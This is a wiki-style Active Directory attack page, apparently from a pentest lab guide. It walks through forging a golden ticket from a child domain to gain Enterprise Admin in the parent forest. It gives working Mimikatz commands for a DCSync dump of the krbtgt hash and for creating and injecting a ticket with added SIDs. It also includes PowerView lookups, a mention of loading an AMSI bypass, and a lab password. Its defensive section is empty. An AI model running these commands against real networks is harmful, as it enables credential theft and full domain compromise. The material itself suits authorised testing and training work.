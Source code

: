 # Krbtgt hash

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../../.gitbook/assets/image (20).png>)

To execute the attack we need a couple bits of information:

* The hash of the krbtgt user.
* The SID of the Enterprise Admins group.
* The SID of the child domain.

3\. Execute a DCsync with MimiKatz and only retrieve the krbtgt hash:

```
Invoke-MimiKatz -Command '"lsadump::dcsync /user:amsterdam\krbtgt /domain:amsterdam.bank.local"'
```

![](<../../../../.gitbook/assets/image (22) (1).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../../.gitbook/assets/image (34).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSID
```

![](<../../../../.gitbook/assets/image (21).png>)

6\. Create a golden ticket with MimiKatz and inject it into the current session:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```

![](<../../../../.gitbook/assets/image (70).png>)

7\. The ticket injected successfully, now we can dir the c$ directory to check if our user has read/write access to the C disk:

![](<../../../../.gitbook/assets/image (75).png>)

## Defending

### Detection



## References

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
